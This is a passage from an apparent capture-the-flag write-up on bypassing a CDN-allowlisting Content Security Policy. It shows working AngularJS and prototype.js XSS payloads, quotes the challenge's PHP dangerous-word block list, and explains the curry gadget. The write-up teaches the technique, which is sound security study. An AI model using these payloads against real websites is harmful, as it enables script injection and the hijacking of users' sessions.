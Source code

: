 It's a classic CSP bypass which even appeared in the intigriti XSS challenge last month.

`https://cdnjs.cloudflare.com/ajax/libs` is allowed, so we can use the Angular gadget in the [XSS cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#angularjs-reflected-1-all-versions-(chrome)-shorter):

``` html
<input id=x ng-focus=$event.path|orderBy:'(z=alert)(1)'>
```

Are we done? Nope, it's not work because `focus` event is not triggered.

The preivew content is hidden by default, the user needs to click the button to remove `display:none` CSS rule to make it visible. It's a dead end since user interaction is not allowed here.

When it comes to Angular CSP bypass, my favorite one is the following:

```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js"></script>
<div ng-app ng-csp>
  {{$on.curry.call().alert(1)}}
</div>
```

User interaction is not needed, as well as `unsafe-inline` and `unsafe-eval`.

I learned this payload from:

1. [Bypassing path restriction on whitelisted CDNs to circumvent CSP protections - SECT CTF Web 400 writeup](https://blog.0daylabs.com/2016/09/09/bypassing-csp/)
2. [H5SC Minichallenge 3: “Sh*t, it’s CSP!”](https://github.com/cure53/XSSChallengeWiki/wiki/H5SC-Minichallenge-3:-%22Sh*t,-it's-CSP!%22)

It seems great, but the payload still won't work because of a keyword-based block list:

```php
$dangerous_words = ['eval', 'setTimeout', 'setInterval', 'Function', 'constructor', 'proto', 'on', '%', '&', '#', '?', '\\'];

foreach ($dangerous_words as $word) {
  if (stripos($desc, $word) !== false){
    header("Location: app.php#msg=dangerous word detected!");
    die();
  }
}
```

`proto` is forbidden, also `#` and `&`, so we can't use HTML entities to bypass the detection.

To solve this problem, the player is expected to find out that why `prototype.js` is needed for the bypass.

It’s needed because prototype.js [adds a few methods](https://github.com/prototypejs/prototype/blob/master/src/prototype/lang/function.js#L226) to different prototype, like Function.prototype:

```js
function curry() {
  if (!arguments.length) return this;
  var __method = this, args = slice.call(arguments, 0);
  return function() {
    var a = merge(args, arguments);
    return __method.apply(this, a);
  }
}
```
